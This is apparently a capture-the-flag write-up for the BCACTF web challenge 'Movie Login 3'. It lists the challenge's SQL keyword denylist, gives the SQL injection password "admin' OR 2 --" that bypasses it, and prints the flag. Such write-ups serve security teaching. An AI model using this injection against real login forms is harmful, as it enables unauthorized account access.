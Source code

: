 # Movie Login 3 | Web

### Solution

From ctf we have got url to website with login panel and more restricted denylist.json than before with blacklisted characters.
##### denylist.json

```json
[
    "and",
    "1",
    "0",
    "true",
    "false",
    "/",
    "*",
    "=",
    "xor",
    "null",
    "is",
    "<",
    ">"
]
```

The same as before I slightly changed SQL logical statement and ended up with:<br />
> Login: **admin**<br />
> Password: **admin' OR 2 --**


### Flag

bcactf{gu3ss_th3r3s_n0_st0pp1ng_y0u!}

#### Credits

- Writeup by [HuntClauss](https://ctftime.org/user/106464)
- Solved by [HuntClauss](https://ctftime.org/user/106464)
- WaletSec 2021

#### License

**CC BY 4.0** WaletSec + HuntClauss